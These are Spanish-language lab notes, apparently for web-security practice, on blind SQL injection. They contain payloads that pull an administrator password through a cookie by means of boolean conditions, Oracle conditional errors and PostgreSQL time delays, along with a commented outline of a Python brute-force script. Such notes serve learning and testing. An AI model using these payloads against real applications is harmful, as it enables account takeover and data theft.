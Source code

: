 ```python
# A continuación, vamos a explicar brevement que hace el siguiente script: 
def_handler() # Es una funcion que al presionar ctrl+C detiende el programa.
main_url # Es la url que deseamos "atacar"
dictionary # Contiene todos los caracteres y numeros que vamos a usar.
makeRequest() # Es la funcion principal, en la que p1 y p2 son barras de progreso (libreria pwn) a cuales les asignamos un status.

for i in range (1,21) 
	for j in dictionary
# Como sabemos que la pagina tiene una vulnerabilidad dentro del tracking id (cookie), vamos a insertar la sintaxis que nuestro script automatizará: 
and (select substring(password,%d,1) from users where username='administrator')='%s" % (i, j) 
# la %d será sustuido por la i en el rango 1-21 para iterar las posiciones de los caracteres de la contraseña, mientras que %s iterará los caracteres en si. Por lo tanto, si la contraseña de admin es "admin123" y el bucle select tenga password(a,1) entra en bluce añadira dicha letra a la variable
password # Dentro del if
# Y así hasta hallar toda la contraseña. 
# La funcion 
r=requests.get(main_url, cookies=cookies) # Es para "mandar" la cookie a la url que hemos definido antes
```

## Blind SQL injection with conditional errors

con `union union select banner from v$version` sabemos que estamos ante una BBDD Oracle, asi que vamos a sacar la password:

```sql
'||(select case when substr(password, %d, 1)='%s' then to_char(1/0) else '' end from users where username='administrator')||'
```

```python
# En este caso, el script sería identico al anterior, solo que tendríamos que cambiar el tracking ID script por el que acabamos de describir y el if por este:
if r.status_code == 500:
    password += j
    p2.status(password)
    break
# Si la pagina devuelve un 500 error code es que el caracter en la posicion J es correcto, por lo que lo añade a la variable
password
```

### Blind SQL injection with time delays

Comprobando la BBDD que hay detras, sabemos que es postgresql, pues nos coge el siguiente comando:

```sql
'||pg_sleep(10)--
```

#### Blind SQL injection with time delays and information retrieval
